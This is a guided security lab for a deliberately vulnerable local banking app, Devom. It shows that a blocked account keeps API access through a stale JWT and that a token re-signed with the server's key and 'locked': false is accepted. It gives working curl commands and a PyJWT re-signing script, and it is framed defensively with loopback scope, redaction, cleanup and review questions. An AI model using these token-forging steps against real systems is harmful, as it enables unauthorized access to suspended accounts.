

# 09 — JWT-based account-state bypass

*Does a blocked Devom account keep access through a token that says it is active?*

## What this lab does

You will:

1. Sign in as the seeded `cala` account and read its profile with the returned token.
2. Block `cala` in the Devom admin console.
3. Repeat the profile request with the token from before the block, then with a token issued after the block.
4. Re-sign the blocked token with `"locked": false` and repeat the request once more.

If the pre-block token and the re-signed token both return the profile while the admin console shows `BLOCKED`, the server is trusting a claim inside the token instead of the account's current state.

**Target:** Devom at revision [`af4290ce8d2178765bfc2bd96cf233f6d3d03161`](https://github.com/memohk/Devom/tree/af4290ce8d2178765bfc2bd96cf233f6d3d03161). **Piloted** on 29 October 2026 against the pinned revision running on loopback (Python 3.14, Flask 3.1.3). The results below were observed in that run.

## Before you begin

Complete [Common prerequisites](00-common-setup.md) and [Devom setup](01-devom-setup.md). The lab changes only the status of the seeded disposable accounts `cala` and `admin`, and you restore it yourself in Step 6. Do not run this against a real bank, a shared server, or an account you do not own.

Keep the Devom server terminal and the checkout open. All commands below run in a second terminal on the lab VM.

## Tools needed

- The running Devom backend from [Devom setup](01-devom-setup.md), with its Python environment.
- Bash and `curl` on the lab VM.
- A browser on the lab VM for the admin console.
- PyJWT, already installed by `requirements.txt` in the Devom checkout.

Every API request below sends `User-Agent: Postman`. Without it, Devom encrypts JSON responses and the output is unreadable.

## Guided walkthrough

### 1. Sign in and record the first token

Open a second terminal and send the seeded lab credentials:

```bash title="Sign in as cala"
BASE='https://127.0.0.1:8080'
curl --insecure -i -A 'Postman' -H 'Content-Type: application/json' \
  --data '{"username":"cala","password":"cala123"}' "$BASE/login"
```

!!! success "Expected"
    `HTTP/1.1 200 OK`, then a JSON body containing `"status": "2fa_required"`, `"user_id": "100500"`, `"session_token": "..."`, and `"debug_token": "..."`.

Copy the `session_token` value into a variable and into a file, so it survives the next commands:

```bash title="Store the pre-block token"
TOKEN='PASTE_SESSION_TOKEN_HERE'
printf '%s' "$TOKEN" > session-before.jwt
```

The login succeeds even though this account has a second factor. That is expected here; Lab 10 covers the second factor.

### 2. Read the profile as the baseline

```bash title="Read cala's profile"
curl --insecure -i -A 'Postman' -H "Authorization: Bearer $TOKEN" \
  "$BASE/profile/100500"
```

!!! success "Expected"
    `HTTP/1.1 200 OK` and a JSON object whose `id` is `100500`, `username` is `cala`, and `balance` is `1000` on a fresh database.

!!! warning "Redact the response"
    In this revision `/profile/<user_id>` returns the whole user row, including `password`, `recovery_pin`, and `security_answer`. Keep only the fields you need in your notes and screenshots.

### 3. Block the account in the admin console

In the browser on the lab VM:

1. Open `https://127.0.0.1:8080/admin/login`. Accept the certificate warning for this local address only.
2. Sign in with the lab admin account `admin` / `admin123`.
3. In the **Console** view, use the search box to filter for `cala`.
4. In the `cala` row, click **BLOCK**.

!!! success "Expected"
    The row's status changes to the red `BLOCKED` badge and the button becomes **UNBLOCK**.



### 4. Compare the old token with a new one

First repeat the exact request from Step 2 with the token you saved before the block:

```bash title="Reuse the pre-block token"
curl --insecure -i -A 'Postman' -H "Authorization: Bearer $TOKEN" \
  "$BASE/profile/100500"
```

!!! success "Expected"
    Still `HTTP/1.1 200 OK` with cala's profile. The token carries `"locked": false` from the moment it was issued, and no endpoint rechecks the account status.

Now sign in again and save the new token:

```bash title="Sign in while blocked"
curl --insecure -i -A 'Postman' -H 'Content-Type: application/json' \
  --data '{"username":"cala","password":"cala123"}' "$BASE/login"
```

!!! success "Expected"
    `HTTP/1.1 200 OK` with `"status": "locked"`, `"account_locked": true`, and a fresh `session_token`.

Note that login still returns `200` and a usable-looking token; the app is expected to read `status` and refuse to continue. Save this new token and call the profile with it:

```bash title="Use the post-block token"
BLOCKED='PASTE_NEW_SESSION_TOKEN_HERE'
printf '%s' "$BLOCKED" > session-blocked.jwt
curl --insecure -i -A 'Postman' -H "Authorization: Bearer $BLOCKED" \
  "$BASE/profile/100500"
```

!!! success "Expected"
    `HTTP/1.1 403 FORBIDDEN` with `{"message": "USER_LOCKED: Your account is suspended (JWT check)"}`. This token carries `"locked": true`, so the server rejects it.

### 5. Re-sign the blocked token with the active claim

The server reads a file named by the token's `kid` header. In the disposable checkout, that key is `jwt_keys/prod.key`, so you can re-sign the same claims with `"locked": false`. Run this from the Devom checkout with its Python environment active:

```bash title="Re-sign the blocked token with locked set to false"
python - <<'PY'
import json, pathlib, jwt
key = pathlib.Path('jwt_keys/prod.key').read_text().strip()
token = pathlib.Path('session-blocked.jwt').read_text().strip()
claims = jwt.decode(token, key, algorithms=['HS256'])
claims['locked'] = False
pathlib.Path('session-unlocked.jwt').write_text(
    jwt.encode(claims, key, algorithm='HS256', headers={'kid': 'prod.key'}))
print(json.dumps(claims, default=str, indent=2))
PY
```

!!! success "Expected"
    The script prints the claims with `"locked": false` and writes `session-unlocked.jwt`.

Send one profile request with the re-signed token:

```bash title="Use the re-signed token"
MUTATED="$(cat session-unlocked.jwt)"
curl --insecure -i -A 'Postman' -H "Authorization: Bearer $MUTATED" \
  "$BASE/profile/100500"
```

!!! success "Expected"
    `HTTP/1.1 200 OK` with cala's profile, while the admin console still shows `BLOCKED`. A payload edit without a valid signature is not a valid control, so this test only works because you signed it with the lab key.


In the pilot, the pre-block token returned `200` after the admin console showed `BLOCKED`; the token issued while blocked returned `403`; and the same claims re-signed with `"locked": false` returned `200` again.

### 6. Decide what the result proves

Use these checks when you write the finding:

- If the pre-block token still worked after the block, the server accepts a stale claim. Account status is read from the token, not from the database, on every protected request.
- If only the re-signed token worked, the weakness is that the token's `locked` claim is the only enforcement, and the signing key is available to anyone who can read the checkout.
- A `403` on the post-block token shows that the claim is checked; it does not show that the database status is checked.
- This lab does not test the Android app's own handling of `status`; it tests the API only.

Restore the account before you finish:

1. Return to the admin console and click **UNBLOCK** on the `cala` row.
2. Confirm the badge shows `ACTIVE`.

## Troubleshooting

- **The response body looks like random characters and `Content-Type: text/plain`:** the `User-Agent: Postman` header is missing.
- **`403 USER_LOCKED` on every token:** the account is still blocked in the console. Either you are using the post-block token, or you did not re-sign with `locked` set to `false`.
- **`401 Token is invalid!`:** the token was copied with a newline, or it was re-signed with a different key. Rewrite the file with `printf '%s'`.
- **`jwt_keys/prod.key` is missing:** the server creates it on first start. Confirm you ran the Python script inside the Devom checkout.
- **The admin console shows an empty user table:** sign in again; the console needs an active admin session.

<details markdown="1">
<summary>Hints</summary>

1. Compare the claims in `session-before.jwt` and `session-blocked.jwt`; only `locked`, `iat`, and `exp` should differ.
2. `validate_jwt` reads `jwt_keys/<kid>` and then checks the `locked` claim. Neither step consults the `users` table.
3. The database status is checked only inside `/login`, when it builds the token.

</details>

## Evidence

Submit these four items:

- **Baseline:** the redacted `200` profile response taken before the block, plus the `user_id` and token claims (`sub`, `locked`, `iat`, `exp`).
- **Blocked state:** a screenshot of the admin console row showing `cala` as `BLOCKED`.
- **Comparison:** the status code and first line of the response for the pre-block token, the post-block token, and the re-signed token. Say which requests your own run actually made.
- **Limits:** state that the test covers the API's account-state check only, and that the re-signed token required the lab's signing key.

Redact the full token, `password`, `recovery_pin`, and `security_answer` from everything you submit.

## Vulnerability and Impact

Devom issues a 24-hour JWT at login and copies the account's blocked state into a `locked` claim. Protected endpoints check that claim and never re-read the account row. In the inspected source, a block therefore does not end an existing session: the token keeps working until it expires or the key changes. Because `validate_jwt` loads the signing key from a local file named by the token's `kid` header, anyone with read access to the checkout can also mint a token that says `"locked": false`.

The impact is that suspending an account does not immediately cut off API access, and a token's claims are only as trustworthy as the server's key handling. This is a server-side authorization issue, not a mobile-screen bypass. In a real deployment the key would not be readable by the client, so the re-signed-token step demonstrates the trust boundary rather than a production attack path.

## Cleanup and review

- Unblock `cala` in the admin console and confirm the row shows `ACTIVE`.
- Delete the local copies of the tokens and the re-signed file: `rm -f session-before.jwt session-blocked.jwt session-unlocked.jwt`.
- Leave the Devom database and its audit log as they are; the failed and successful requests are part of the lab record.

Why does a valid signature not make a claim true? Which server-side check would end access at the moment an account is blocked, and what would it cost on every request?
